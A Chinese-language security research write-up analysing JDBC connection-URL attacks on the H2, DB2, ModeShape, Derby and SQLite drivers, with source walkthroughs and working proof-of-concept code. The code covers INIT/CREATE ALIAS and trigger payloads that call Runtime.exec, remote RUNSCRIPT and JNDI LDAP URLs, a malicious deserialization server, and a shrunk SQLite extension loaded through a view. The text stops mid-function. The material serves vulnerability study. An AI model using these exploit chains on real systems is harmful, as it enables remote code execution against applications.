




HITB SECCONF Singapore-2021 上由阿里巴巴云安全团队的 Litch1 & pyn3rd 进行了拓展和延伸。其中提到了除 MySQL Connector 之外的诸多主流驱动存在的安全问题。
Spring Boot H2 Console
H2 Database 是一个纯 Java 实现的符合 JDBC 标准的数据库引擎。
H2 中有一个类 RunScript，用于执行 SQL 脚本。同时 H2 支持一个特性，在 发起连接时执行 SQL 脚本『通过 INIT 属性』，可执行多个脚本（文件），通过分号进行分隔。
jdbc:h2:mem:test;INIT=create schema if not exists test\;runscript from '~/sql/init.sql'
RUNSCRIPT FROM
RUNSCRIPT FROM 用于从文件中读取并执行其中的 SQL 语句。并且最重要的是，RUNSCRIPT FROM 可以加载远程文件。
Runs a SQL script from a file. The script is a text file containing SQL statements; each statement must end with ’;‘. This command can be used to restore a database from a backup. The password must be in single quotes; it is case sensitive and can contain spaces. Instead of a file name, a URL may be used.
那么可以使用 CREATE ALIAS 语句构造一个恶意的 SQL 脚本，在连接时，下载该脚本并执行。
CREATE ALIAS
H2 文档中 CREATE ALIAS 语句的语法格式如下，
CREATE ALIAS [ IF NOT EXISTS ] [schemaName.]functionAliasName
[ DETERMINISTIC ]
{ FOR classAndMethodString | AS sourceCodeString }CREATE ALIAS 语句用于创建方法别名，并自定义方法。在定义的方法中，调用的其它方法需要是 public 且 static 的。并且所有类需要使用全限定名称，且位于 classpath 中。
需要注意，方法必须有返回值，且需要和传入参数的类型一致。
构造如下 SQL 脚本用于执行命令。
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "trganda";}';CALL EXEC ('open -a Calculator.app')
示例代码如下
测试环境
com.h2database.h2:2.1.214
@Test
public void runScript() throws SQLException {
String payload = "INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'";
// TRACE_LEVEL_SYSTEM_OUT=3; 打印日志
String connectionUrl = "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;" + payload;
Connection connection = DriverManager.getConnection(connectionUrl, "sa", "");
connection.close();
}代码分析
测试环境
com.h2database.h2:2.1.214
INIT 参数的读取位于 org.h2.engine.ConnectionInfo#readSettingsFromURL。
private void readSettingsFromURL() {
DbSettings defaultSettings = DbSettings.DEFAULT;
int idx = url.indexOf(';');
if (idx >= 0) {
String settings = url.substring(idx + 1);
url = url.substring(0, idx);
String unknownSetting = null;
// split setting
String[] list = StringUtils.arraySplit(settings, ';', false); // [1]
for (String setting : list) {
// ...
if (isKnownSetting(key) || defaultSettings.containsKey(key)) {
String old = prop.getProperty(key);
if (old != null && !old.equals(value)) {
throw DbException.get(ErrorCode.DUPLICATE_PROPERTY_1, key);
}
prop.setProperty(key, value);INIT 内容的执行入口则位于 org.h2.engine.Engine#openSession [2]，此时只是创建 Session，但并未进行用户名和密码的验证，所以可以直接利用。
private static SessionLocal openSession(ConnectionInfo ci) {
// ...
String init = ci.removeProperty("INIT", null);
SessionLocal session;
long start = System.nanoTime();
for (;;) {
// create session, no validate user name and password right now
session = openSession(ci, ifExists, forbidCreation, cipher);
// ...
}
synchronized (session) {
// ...
if (init != null) {
try {
CommandInterface command = session.prepareLocal(init); // [3]
command.executeUpdate(null); // [2]本地化利用
前面的利用方式需要外连，发起网络连接。本地化的利用方法会更加实用，前面之所以通过加载外部 SQL 语句的方式进行命令执行的原因是，[2] 只执行单行语句『 PPT 中描述的』。
为此作者对 CREATE ALIAS 的源码部分进行分析，发现可以使用 Groovy Assert 或者 ScriptEngine 进行代码执行。
多语句
但实际上还有一种更简单的方式，见下面的代码
@Test
public void crateAlias() throws SQLException {
String payload =
"INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"trganda\"\\;}'\\;CALL EXEC ('open -a Calculator.app')";
String connectionUrl = "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;" + payload;
Connection connection = DriverManager.getConnection(connectionUrl, "sa", "");
connection.close();
}前面已经提过 INIT 参数支持执行多个语句并通过 ; 进行分隔，但是需要注意的是，要添加 \。原因是在 readSettingsFromURL 中 [1]，会通过 ; 分隔多个设置参数，所以如果想保留原本的含义，需要转义。
其次，虽然 CommandInterface#executeUpdate [2] 只执行单行 SQL 语句，但并不代表它不能执行多个语句，只需通过 ; 放在一行中即可。 若存在多个语句，[3] 则会构造一个 CommandList，它继承了 Command 类。
SourceCompiler
前面介绍了 CREATE ALIAS 语句，它的具体实现位于 org.h2.command.ddl.CreateFunctionAlias 『其它命令的实现都位于 org.h2.command 包中』。
其 update 方法如下，
@Override
public long update() {
session.getUser().checkAdmin();
Database db = session.getDatabase();
Schema schema = getSchema();
if (schema.findFunctionOrAggregate(aliasName) != null) {
// ...
} else {
int id = getObjectId();
FunctionAlias functionAlias;
if (javaClassMethod != null) {
functionAlias = FunctionAlias.newInstance(schema, id, aliasName, javaClassMethod, force);
} else {
functionAlias = FunctionAlias.newInstanceFromSource(schema, id, aliasName, source, force); // [3]
}
functionAlias.setDeterministic(deterministic);
db.addSchemaObject(session, functionAlias);
}
return 0;
}前面示例代码中创建的 Alias 是通过 Source 创建的，所以会进入 [3]，调用 FunctionAlias#newInstanceFromSource，创建用户定义的方法，调用链会来到 FunctionAlias#loadFromSource，
private void loadFromSource() {
SourceCompiler compiler = database.getCompiler(); // [4]
synchronized (compiler) {
String fullClassName = Constants.USER_PACKAGE + "." + getName();
compiler.setSource(fullClassName, source); // [5]
try {
Method m = compiler.getMethod(fullClassName); // [6]
JavaMethod method = new JavaMethod(m, 0);
javaMethods = new JavaMethod[] {
method
};
// ...
}
}[4] 获取编译类 SourceCompiler，[5] 设置待编译的源码，并在 [6] 调用 SourceCompiler#getMethod 获取编译后的方法。而在 SourceCompiler#getClass 方法中，[7] 会判断源代码是否为 Groovy 形式。
public Class<?> getClass(String packageAndClassName)
throws ClassNotFoundException {
Class<?> compiledClass = compiled.get(packageAndClassName);
if (compiledClass != null) {
return compiledClass;
}
String source = sources.get(packageAndClassName);
if (isGroovySource(source)) { // [7]
Class<?> clazz = GroovyCompiler.parseClass(source, packageAndClassName);
compiled.put(packageAndClassName, clazz);
return clazz;
}
// ...
}
private static boolean isGroovySource(String source) {
return source.startsWith("//groovy") || source.startsWith("@groovy");
}这意味着，可以使用 groovy 代码。
关于这一点，在 H2 的 文档 中也有提及。 If you have the Groovy jar in your classpath, it is also possible to write methods using Groovy.
不过如果仔细阅读文档，除了 groovy。在 CREATE TRIGGER 中还能使用 javascript(ScriptEngine)『通过前缀 //javascript』 和 ruby(JRuby)『通过前缀 #ruby』，需要管理员权限。
这一点在 SourceCompiler 的源代码中也有体现
private static boolean isJavascriptSource(String source) {
return source.startsWith("//javascript");
}
private static boolean isRubySource(String source) {
return source.startsWith("#ruby");
}Groovy
测试环境
com.h2database.h2:2.1.214
了解了调用过程，就可以构造利用语句了，作者利用的是 assert 方法。
@Test
public void groovyAsset() throws SQLException {
String groovy =
"@groovy.transform.ASTTest(value={"
+ " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")"
+ "})"
+ "def x";
String url =
"jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS T5 AS '"
+ groovy
+ "'";
Connection conn = DriverManager.getConnection(url);
conn.close();
}ScriptEngine
测试环境
com.h2database.h2:1.4.199
如前所述，使用 ScriptEngine 的方式有两种，Javascript 和 JRuby。需要注意的是，下面的两种 Poc 都无法在 H2 当前最新版本（2.1.214）下使用『后面会提』。
Javascript 如下，
@Test
public void js() throws SQLException {
String javascript =
"//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
// work on old h2 version
// String oldUrl =
// "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;MODE=MSSQLServer;INIT=CREATE
// TRIGGER POC BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"
// + javascript
// + "'";
String url =
"jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
+ javascript
+ "'";
Connection conn = DriverManager.getConnection(url);
conn.close();
}JRuby 代码如下，需要下载 JRuby 并将其添加至 classpath，使用 IDEA 的话直接添加至当前项目的依赖即可。
@Test
public void ruby() throws SQLException {
String ruby =
"#ruby\nrequire \"java\"\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
String url =
"jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
+ ruby
+ "'";
Connection conn = DriverManager.getConnection(url);
conn.close();
}如何触发 Trigger
首先，需要明确 Trigger 的创建和调用过程，Trigger 在创建的过程中，就会被执行一次。所以，只需要保证 CREATE TRIGGER 语句自身没有语法错误即可。
在 PPT 中，作者是通过设置 MODE=MSSQLServer; 属性『开启 MySQL 兼容模式』，并将触发器条件设置为 BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS，其中使用了 MySQL 数据库中的表名 INFORMATION_SCHEMA.CATALOGS。
不过该方法在新版本 H2 下不可用，所以需要一种更通用的方法，具体见下面的代码。通过 INIT 执行多语句，创建一个数据库和表，从而确保它存在，并在后续 CREATE TRIGGER 语句中使用。
public class Poc {
@Test
public void jsPoc() throws ClassNotFoundException, SQLException {
Class.forName("org.h2.Driver");
String javascript =
"//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
String url =
"jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
+ javascript
+ "'";
Connection conn = DriverManager.getConnection(url);
conn.close();
}
}H2 Settings
在 URL 连接串中有如下可用设置选项，其中的 JAVA_OBJECT_SERIALIZER 和 JMX 可以作为其它攻击方式进行研究。
0 = "JAVA_OBJECT_SERIALIZER"
1 = "CREATE"
2 = "MODE"
3 = "MAX_MEMORY_UNDO"
4 = "CREATE_BUILD"
5 = "TIME ZONE"
6 = "DEFAULT_LOCK_TIMEOUT"
7 = "ACCESS_MODE_DATA"
8 = "AUTO_SERVER_PORT"
9 = "CATALOG"
10 = "OPTIMIZE_REUSE_RESULTS"
11 = "DB_CLOSE_DELAY"
12 = "RECOVER"
13 = "CLUSTER"
14 = "MAX_OPERATION_MEMORY"
15 = "CACHE_TYPE"
16 = "REFERENTIAL_INTEGRITY"
17 = "TRACE_MAX_FILE_SIZE"
18 = "TRACE_LEVEL_SYSTEM_OUT"
19 = "AUTO_RECONNECT"
20 = "OPEN_NEW"
21 = "TRACE_LEVEL_FILE"
22 = "MAX_MEMORY_ROWS"
23 = "NON_KEYWORDS"
24 = "LOCK_TIMEOUT"
25 = "RETENTION_TIME"
26 = "QUERY_STATISTICS"
27 = "INIT"
28 = "PASSWORD"
29 = "MAX_LENGTH_INPLACE_LOB"
30 = "LAZY_QUERY_EXECUTION"
31 = "PAGE_SIZE"
32 = "AUTO_SERVER"
33 = "AUTOCOMMIT"
34 = "THROTTLE"
35 = "BUILTIN_ALIAS_OVERRIDE"
36 = "IGNORE_UNKNOWN_SETTINGS"
37 = "READONLY"
38 = "AUTHZPWD"
39 = "AUTHENTICATOR"
40 = "NETWORK_TIMEOUT"
41 = "@"
42 = "TRUNCATE_LARGE_LENGTH"
43 = "COLLATION"
44 = "MAX_LOG_SIZE"
45 = "VARIABLE_BINARY"
46 = "QUERY_STATISTICS_MAX_ENTRIES"
47 = "RECOVER_TEST"
48 = "WRITE_DELAY"
49 = "ALLOW_LITERALS"
50 = "FORBID_CREATION"
51 = "PASSWORD_HASH"
52 = "SCHEMA"
53 = "CACHE_SIZE"
54 = "QUERY_TIMEOUT"
55 = "IFEXISTS"
56 = "DEFAULT_TABLE_TYPE"
57 = "LOCK_MODE"
58 = "EXCLUSIVE"
59 = "FILE_LOCK"
60 = "OLD_INFORMATION_SCHEMA"
61 = "NO_UPGRADE"
62 = "USER"
63 = "IGNORECASE"
64 = "DATABASE_EVENT_LISTENER"
65 = "IGNORE_CATALOGS"
66 = "DEFAULT_NULL_ORDERING"
67 = "JMX"
68 = "CIPHER"
69 = "AUTHREALM"
70 = "REDO_LOG_BINARY"
71 = "SCHEMA_SEARCH_PATH"
参数
spring.h2.console.enabled=truespring.h2.console.settings.web-allow-others=true
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
poc.sql 中的 payload 可使用 Groovy AST Transformations，但 Groovy 依赖不常见，提出了另一种方式
org.h2.util.SourceCompiler，还可以借助
ScriptEngine执行js代码。
public static void main (String[] args) throws ClassNotFoundException, SQLException {
String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculat
or\")";
String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '" + javascript + "'";
Connection conn = DriverManager.getConnection(url);
conn.close();IBM DB2
DB2 是 IBM 旗下的一款 Cloud-Native 数据库产品，支持 JDBC。连接串的 语法 如下，属性设置由 : 进行分隔。
jdbc:db2://host[:50001][/schema][:name=value[;name=value ...]]
作者在 PPT 中提到了如下属性，
- clientRerouteServerListJNDIName：根据文档，该参数表示一个类型为
DB2ClientRerouteServerList的 JNDI 引用对象，它内部包含reroute server的相关信息『为负载均衡和容灾提供支持』。如果不为null，则提供如下功能- Allows information about reroute servers to persist across JVMs
- Provides an alternate server location if the first connection to the data source fails
既然是 JNDI 引用，那一定存在存在 lookup 调用，位于 com.ibm.db2.jcc.am.c0。
DB2 Driver 是闭源的，大部分代码可能会反编译失败，更多的靠文档和黑盒测试。
public class c0 implements PrivilegedExceptionAction {
private Context a = null;
private String b;
public c0(Context var1, String var2) {
this.a = var1;
this.b = var2;
}
public Object run() throws NamingException {
return this.a.lookup(this.b);
}
}Poc 代码如下
@Test
public void db2() throws SQLException {
String url =
"jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1389/evilClass;";
DriverManager.getConnection(url);
}Java Content Repository
JCR（内容存储仓库）是在 JSR 170 和 JSR 283 中定义的一项标准的 Java 接口。支持用于访问多种层次结构的数据源，包括文件系统，关系数据库或 XML 文档。
引用 JCR 的规范：JCR 是一个高级信息管理系统，是传统数据存储库的超集。
PPT 中列出了 JCR 的多个实现：
- Jackrabbit (Apache)
- CRX (Adobe)
- ModeShape
- eXo Platform
- Oracle Beehive
重点关注 ModeShape，在 官方文档 中提到，使用 JDBC 时数据源需指定为 JNDI URI。并给出了 URL 的格式 jdbc:jcr:jndi:jcr:?repositoryName=『大概只是建议的格式』
实际查看代码，只在创建 RepositoryDelegate 时，会检查 URL 是否以 jdbc:jcr:jndi: 开头 [8] & [9]
public RepositoryDelegate createRepositoryDelegate( String url,
Properties info,
JcrContextFactory contextFactory ) throws SQLException {
if (!acceptUrl(url)) { // [8]
throw new SQLException(JdbcLocalI18n.invalidUrlPrefix.text(LocalJcrDriver.JNDI_URL_PREFIX));
}
return create(determineProtocol(url), url, info, contextFactory);
}
protected int determineProtocol( String url ) {
assert url != null;
assert url.length() != 0;
// [9] LocalJcrDriver.JNDI_URL_PREFIX = "jdbc:jcr:jndi:"
if (url.startsWith(LocalJcrDriver.JNDI_URL_PREFIX) && url.length() > LocalJcrDriver.JNDI_URL_PREFIX.length()) {
// This fits the pattern so far ...
return PROTOCOL_JNDI;
}
return PROTOCOL_UNKNOWN;
}后续直到 lookup 调用前 [10]，都没有其它格式上的检查。
protected void initRepository() throws SQLException {
// ...
// Look up the object in JNDI and find the JCR Repository object ...
String jndiName = connInfo.getRepositoryPath();
// ...
Context context = null;
try {
context = this.jcrContext.createContext(connInfo.getProperties());
} catch (NamingException e) {
throw new SQLException(JdbcLocalI18n.unableToGetJndiContext.text(e.getLocalizedMessage()));
}
String repositoryName = "NotAssigned";
try {
Object target = context.lookup(jndiName); // [10]Poc 代码如下
测试环境
modeshape-jdbc:5.4.1.Final
@Test
public void modeshape() throws SQLException {
String url = "jdbc:jcr:jndi:ldap://127.0.0.1:1389/evilClass";
DriverManager.getConnection(url);
}Apache Derby
作者在 org.apache.derby.impl.store.replication.net.Socketconnection 中找到一个 readMessage 方法，其中存在反序列化调用。
public Object readMessage() throws ClassNotFoundException, IOException {
return this.objInputStream.readObject();
}并发现 org.apache.derby.impl.store.replication.net.MasterReceiverThread 中会调用 readMessage 方法 [11]
public void run() {
while(!ReplicationMessageTransmit.this.stopMessageReceiver) {
try {
ReplicationMessage var1 = this.readMessage(); // [11]而 MasterReceiverThread 的调用需要如下参数
- startMaster=true：表示开启
master模式。 slaveHost=<slave_ip>
Poc 代码如下
测试环境
derby:10.14.2.0
@BeforeAll
public static void startSlave() {
try {
DriverManager.getConnection("jdbc:derby:db;create=true");
} catch (SQLException e) {
// ttk...
}
server = new SlaveServer(4851);
}
@AfterAll
public static void stopServer() {
server.close();
}
@Test
public void derby() throws SQLException {
DriverManager.getConnection("jdbc:derby:db;startMaster=true;slaveHost=127.0.0.1");
}恶意 slave 服务
public class SlaveServer implements AutoCloseable {
private static final Logger logger = LoggerFactory.getLogger(SlaveServer.class);
private final Channel channel;
private final EventLoopGroup parentGroup;
private final EventLoopGroup childGroup;
public SlaveServer(int port) {
parentGroup = new NioEventLoopGroup();
childGroup = new NioEventLoopGroup();
final ChannelFuture channelFuture =
new ServerBootstrap()
.group(parentGroup, childGroup)
.channel(NioServerSocketChannel.class)
.handler(new LoggingHandler(LogLevel.INFO))
.childHandler(
new ChannelInitializer<NioSocketChannel>() {
@Override
protected void initChannel(NioSocketChannel ch)
throws Exception {
final ChannelPipeline pipeline = ch.pipeline();
pipeline.addLast(new SlaveServerHandler());
}
})
.bind(port);
channel = channelFuture.channel();
channelFuture.awaitUninterruptibly();
}
@Override
public void close() {
channel.close();
childGroup.shutdownGracefully().awaitUninterruptibly();
parentGroup.shutdownGracefully().awaitUninterruptibly();
}
private static class SlaveServerHandler extends ChannelInboundHandlerAdapter {
@Override
public void channelActive(ChannelHandlerContext ctx) {
logger.info("channelActive");
try (InputStream stream =
SlaveServer.class.getClassLoader().getResourceAsStream("cc5.bin")) {
assert stream != null;
byte[] bytes = new byte[stream.available()];
stream.read(bytes);
ByteBuf buf = ctx.alloc().buffer(bytes.length);
buf.writeBytes(bytes);
ctx.writeAndFlush(buf);
logger.info("response payload with cc5");
} catch (Exception e) {
// ttk...
}
}
@Override
public void channelInactive(ChannelHandlerContext ctx) throws Exception {
logger.info("Server channel inactive");
}
}
}SQLite
分析版本
sqlite-jdbc:3.8.9
从 SQLite JDBC Driver 的 Usage 文档 中可以看到，它能够加载远程文件
Connection conn = DriverManager.getConnection("jdbc:sqlite::resource:http://www.xerial.org/svn/project/XerialJ/trunk/sqlite-jdbc/src/test/java/org/sqlite/sample.db");
Connection conn = DriverManager.getConnection("jdbc:sqlite::resource:jar:http://www.xerial.org/svn/project/XerialJ/trunk/sqlite-jdbc/src/test/resources/testdb.jar!/sample.db");相关代码位于 org.sqlite.core.CoreConnection#open 中的 [16]，调用链 JDBC#createConnection->SQLiteConnection->JDBC4Connection->JDBC3Connection->CoreConnection，如果 URL 可控，可以把它理解成一个 SSRF 漏洞。
private void open(int openModeFlags, int busyTimeout) throws SQLException {
// check the path to the file exists
if (!":memory:".equals(fileName) && !fileName.startsWith("file:") && !fileName.contains("mode=memory")) {
if (fileName.startsWith(RESOURCE_NAME_PREFIX)) {
String resourceName = fileName.substring(RESOURCE_NAME_PREFIX.length());
// search the class path
ClassLoader contextCL = Thread.currentThread().getContextClassLoader();
URL resourceAddr = contextCL.getResource(resourceName);
if (resourceAddr == null) {
try {
resourceAddr = new URL(resourceName);
}
catch (MalformedURLException e) {
throw new SQLException(String.format("resource %s not found: %s", resourceName, e));
}
}
try {
fileName = extractResource(resourceAddr).getAbsolutePath(); // [16]
}利用则借助了 SELECT code_execution FROM * USING SQLite; - Check Point Research 中描述的方法利用 db 文件加载时的逻辑，通过 CREATE VIEW 劫持一般的 SELECT 查询，并将实际执行的查询语句替换为 SELECT load_extension('<ext_path>', '<entry_point>')。
但是这种利用场景未免太难了点，除了 URL 可控，还需要一个可控的 extension 文件，在仔细阅读 PPT 和 pyn3rd 的文章 Make JDBC Attacks Brilliant Again I 后都没有找到更多的细节。他们只是假设，有一个可控的 extension 文件，这意味着需要一个文件上传漏洞。那么有没有办法只借助 SQLite Driver 达到这一点？
文件上传
为了解决前面的问题，翻看了 SQLite Driver 的源代码后发现，其实前面提到的 SSRF 漏洞就可以实现文件上传。
跟入 [16] 中调用的方法 extractResource，如果你仔细阅读这段代码就知道文件上传是可能的。通过控制 URL 可以将文件 [17] 写入 System.getProperty("java.io.tmpdir") + String.format("sqlite-jdbc-tmp-%d.db", resourceAddr.hashCode()，但写入的文件有 8K 大小的限制 [18]『足够用了』。
private File extractResource(URL resourceAddr) throws IOException {
// ...
String tempFolder = new File(System.getProperty("java.io.tmpdir")).getAbsolutePath();
String dbFileName = String.format("sqlite-jdbc-tmp-%d.db", resourceAddr.hashCode());
File dbFile = new File(tempFolder, dbFileName); // [17]
// ...
byte[] buffer = new byte[8192]; // 8K buffer // [18]
FileOutputStream writer = new FileOutputStream(dbFile);
InputStream reader = resourceAddr.openStream();
try {
int bytesRead = 0;
while ((bytesRead = reader.read(buffer)) != -1) {
writer.write(buffer, 0, bytesRead);
}
return dbFile;文件名的命名为
System.getProperty("java.io.tmpdir") + String.format("sqlite-jdbc-tmp-%d.db", resourceAddr.hashCode()这个路径，不难猜测到。resourceAddr 可控，可以计算出它的 hashCode，java.io.tmpdir 呢？根据 java.io.File (Java Platform SE 8 ) 中的描述，在 Linux 和 Windows 中，通常为
Linux："/tmp"或"/var/tmp"Windows："C:\\WINNT\\TEMP"Mac：路径中带有随机生成的部分，不可预测，如/var/folders/zq/bnfkv60s36z0lqyt0csfv68m0000gn/T/。
Load Extension
那么这里可以假定，这个路径是能够被攻击者猜测到的，不过有一个问题，这个文件的后缀是固定为 .db 的，它能够被 load_extension 加载吗？下面编写一个 extension 进行测试，代码如下
测试环境为
Ubuntu 22.04 x86_64，编译前需要安装依赖libsqlite3-dev。不建议在 Arm 系列的Mac中进行复现，因为sqlite-jdbc.jar中自带的native文件只支持32位和64位，
#include <sqlite3ext.h>
#include <stdlib.h>
SQLITE_EXTENSION_INIT1
#ifdef _WIN32
__declspec(dllexport)
#endif
int poc( /* <== Change this name, maybe */
sqlite3 *db,
char **pzErrMsg,
const sqlite3_api_routines *pApi
){
int rc = SQLITE_OK;
SQLITE_EXTENSION_INIT2(pApi);
/* insert code to initialize your extension here */
system("touch /tmp/poc_trganda");
return rc;
}编译得到 poc.so 文件，并将文件重命名为 poc.so.db
gcc -s -fPIC -shared poc.c -o poc.so通过以下代码进行测试
public static void main( String[] args ) throws SQLException, ClassNotFoundException {
Class.forName("org.sqlite.JDBC");
String url = "jdbc:sqlite:file:load.db?enable_load_extension=true";
Connection connection = DriverManager.getConnection(url);
connection.setAutoCommit(true);
Statement statement = connection.createStatement();
statement.execute(
"SELECT load_extension('/home/trganda/Projects/sqlite/extension/poc.so.db', 'poc')");
statement.close();
connection.close();
}成功执行 touch /tmp/poc_trganda 命令并创建了 /tmp/poc_trganda 文件。

这里说一点题外话，在 SQLite Load An Extension 文档提到了
sqlite3_load_extension函数的加载逻辑。如果指定的文件无法被正确加载『例如，文件不存在』，那么会自动添加操作系统相关的后缀『samplelib.so、samplelib.dylib、samplelib.dll』，并重新尝试加载。
但是编译后的链接库文件太大了，有 16K！！！，远超 8K。这个问题让我想起曾经看过的一本书，《程序员的自我修养》，里面提到过如何构建一个足够小的 Hello World 程序。
Strip Extension
为了解决这个问题，需要构建一个尽可能小的链接库，并且不影响它的功能。通过编辑器查看 poc.so 文件，里面有大段大段的 00。

查看 section header，会发现 Off 远大于 Size，这意味着链接时为了对其浪费了很多空间，而且其中还包含了很多用不上的 section。
➜ extension readelf -S -W poc.so
There are 28 section headers, starting at offset 0x3158:
Section Headers:
[Nr] Name Type Address Off Size ES Flg Lk Inf Al
[ 0] NULL 0000000000000000 000000 000000 00 0 0 0
[ 1] .note.gnu.property NOTE 00000000000002a8 0002a8 000020 00 A 0 0 8
[ 2] .note.gnu.build-id NOTE 00000000000002c8 0002c8 000024 00 A 0 0 4
[ 3] .gnu.hash GNU_HASH 00000000000002f0 0002f0 000028 00 A 4 0 8
[ 4] .dynsym DYNSYM 0000000000000318 000318 0000c0 18 A 5 1 8
[ 5] .dynstr STRTAB 00000000000003d8 0003d8 000082 00 A 0 0 1
[ 6] .gnu.version VERSYM 000000000000045a 00045a 000010 02 A 4 0 2
[ 7] .gnu.version_r VERNEED 0000000000000470 000470 000020 00 A 5 1 8查看默认的链接脚本，发现使用了 MAXPAGESIZE，在 x86_64 环境下，这个值一般为 4K
链接脚本（Linker Script），用于控制
gcc链接器行为。
ld --verbose
GNU ld (GNU Binutils for Ubuntu) 2.38
...
. = ALIGN(CONSTANT (MAXPAGESIZE));为此，有两种方法，一种是自行编写 Linker Script 用于控制链接行为，缩减大小。还有一种方式是在链接时使用 ，采用如下方式重新编译，-Wl,-z,max-page-size=<hex format> 参数，这里选择后者（会导致错误：ELF load command address/offset not page-aligned）
gcc -Os -flto -fdata-sections -ffunction-sections -c poc.c再用修改过的链接脚本进行链接
gcc -T poc.lds -fPIC -s -nostartfiles -nostdlib -flto -shared poc.o -o pocs.so得到的文件大小为 2.2 K『这不是大小的极限，但足够用了』。
ls -l
-rwxr-xr-x 1 trganda root 2.2K Jun 8 09:06 poc.so利用
有了前面的基础就可以尝试利用了，以下为 Poc 代码。
测试环境是
Ubuntu
public static void createDb(String path) {
File dbFile = new File("src/main/resources/poc.db");
if (dbFile.exists()) {
dbFile.delete();
}
try (Connection conn =
DriverManager.getConnection(
String.format("jdbc:sqlite:%s", "src/main/resources/poc.db"));) {
conn.setAutoCommit(true);
Statement statement = conn.createStatement();
statement.execute(String.format("CREATE VIEW POC AS SELECT load_extension('%s', 'poc');", path));
statement.close();
} catch (SQLException e) {
// ttk...
}
}
@Test
public void sqlite() throws SQLException, MalformedURLException {
